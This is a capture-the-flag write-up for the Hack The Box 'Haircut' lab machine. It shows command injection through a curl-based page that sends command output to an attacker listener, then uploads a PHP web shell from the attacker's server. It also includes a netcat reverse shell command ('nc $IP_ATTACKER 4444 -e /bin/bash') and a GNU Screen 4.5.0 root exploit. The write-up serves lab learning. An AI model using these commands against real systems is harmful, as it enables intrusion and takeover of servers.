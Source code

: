 # htb-haircut
This is my [Hack the box](https://www.hackthebox.eu/)'s Haircut machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.24

Difficulty: Medium

## Initial enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.24`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/haircut# nmap -sC -sV -oN haircut.nmap 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-24 13:39 EDT
Nmap scan report for 10.10.10.24
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.55 seconds
```

The web app running on port 80 is just an image.

Initial directories enumeration with the common list:

```
root@kali:~/htb/haircut# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u ${HAIRCUT}
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 13:55:47 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
===============================================================
2020/05/24 13:56:26 Finished
===============================================================
```

Interesting, there's an `/uploads` directory. Despite it does not seem very useful now, it may come handy in the future.

After trying with several other lists, finally this one got a more intereseting result:

```
root@kali:~/htb/haircut# gobuster dir --url 10.10.10.24 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/24 15:23:49 Starting gobuster
===============================================================
/uploads (Status: 301)
/exposed.php (Status: 200)
```

The page `/exposed.php` has a text input, and when passing a URL it displays on screen the result of curling it. I tried to inject some commands but some symbols/keywords were blocked by the back-end e.g. &, ;, |, python and nc. Curl flags were not blocked, though.

## Exploitation
Checking `curl` man page for ways to get more information on the system or executing arbitrary code, I thought that using curl's request body (-d) could be an acceptable way of transmitting info to a listener. By leveraging backticks, commands can be executed and their results would be sent back to our listener.

Set up listener in attacker machine: 
```
nc -lvp 4444
```

Commands now can be executed from the input of the `/exposed.php` page as follows, and the result of the executed command will be passed as data to the listener:
```
$IP_ATTACKER:4444 -d "`command goes here`"
```
With this we can get the following:
- `whoami` returns `www-data`.
- It is possible to even get the user flag already!: ```cat /home/maria/Desktop/user``` (always check `/home` for getting users)
- ```ls -alh``` returns
```
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K May 22  2017 uploads
```

It seems `uploads` may be a good place to place a web shell as `www-data` has write permissions on it. I'm going to use a PHP web shell called `Predator.php` present in this repo https://github.com/JohnTroony/php-webshells.git. Note that I use that one because I wanted to check it out, but other much simpler ones would be enough.

The first step to copy the shell into the target server, is to make the shell "curleable" by exposing it through an http server in the attacker:
```
$ cd php-webshells
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And now from `/exposed.php` we curl it sending the file to `/uploads` leveraging the `-o` (output file) flag:
```
10.10.14.23:8000/Predator.php -o uploads/Predator.php
```

The shell is accessible from `uploads/Predator.php`, so let's set up a reverse shell using it.

Set `nc` listener in the attacker to handle the reverse shell:
```
nc -lvp 4444
```

The web shell allows the user to execute in the target system. Connect to the attacker as follows:
```
nc $IP_ATTACKER 4444 -e /bin/bash
```

Upgrade shell to more interactive one:
```
python3 -c "import pty; pty.spawn('/bin/bash');"
```

By running `LinEnum.sh` (copied to the target machine by setting up a Python http server as before), it can be noticed that there's a suspicious SUID executable in /usr/bin/screen-4.5.0, that turns out to be a vulnerable version that allows to escalate privileges:
```
$ searchsploit screen 4.5.0
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation              | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)        | linux/local/41152.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I'd encourage you to first check the PoC to see what's going on, basically it is possible to create a file owned by root that can be edited by our group (www-data in this case) which can be used for privilege escalation.

When trying to execute the script (first exploit listed) it's noticeable that it needs some manual action to be functional:
- Change the way in which the script creates the .c files. It does is using `cat` and it does not work properly and adds more lines to the file that is not C code and naturally fails afterwards.
- ```gcc``` fails to compile as it does not find `cc1`. By doing `locate cc1` we see this is its location: `/usr/lib/gcc/x86_64-linux-gnu/5`. Adding that to the path and trying again did the trick.

After completing these manual actions, a root shell is popped after executing the script:
```
# whoami
whoami
root
```
